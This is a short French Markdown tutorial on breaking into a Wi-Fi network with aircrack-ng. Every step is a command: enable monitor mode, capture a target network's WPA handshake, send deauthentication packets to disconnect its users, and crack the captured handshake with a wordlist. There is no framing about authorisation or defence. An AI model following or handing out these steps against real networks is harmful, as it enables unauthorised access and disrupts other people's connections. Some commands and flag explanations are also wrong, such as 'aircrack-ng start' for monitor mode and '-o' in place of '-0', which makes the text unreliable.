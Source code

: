 # Hacker un wifi

## pré requis :
Aircrack-ng :
    
- installation : `sudo apt-get install -y aircrack-ng`

## tuto :

1. choisir l'interface : 
   - `ifconfig`
  
2. Lancer le mode moniteurr sur l'interface concernée :
   - `aircrack-ng start wlan0`

3. Utiliser airodump pour scanner tous les réseaux aux alentours :
    -  `sudo airodump-ng [INTERFACEmon]`

4. Scanner le réseaux et mettre le handshake trouvé dans un fichier :
    
   - `airodump-ng –w [ESSID] –c [Channel] –bssid [BSSID] [interface]mon`
    **help :** [BSSID] = bssid du wifi cible | [CHANNEL] = channel du wifi [1-13] | 
    --write = stocke les information capturé dans la location donnée | [ESSID] = nom du fichier où vous voudrez stocker les données capturer

5. En laissant tourner le scan du handshake, envoyez des paquets de désauthentification aux autulisateurs du wifi :
   - `sudo aireplay-ng -0 100 -a [BSSID] [INTERFACE]`\
   **help :** -o = nombre de pacquet de désauthentification a envoyer | -a = Bssid du wifi cible

6. Cracker le handshake :
   - `sudo aircrack-ng handshake/handshake.cap-01.cap-w [WORDLIST] `\
   **help :** -w = location de la wordlist

7. enlever le mode moniteur et rallumer le service : 
   - `sudo airmon-ng stop [INTERFACE]`
   - ` sudo service network-manager restart`
  
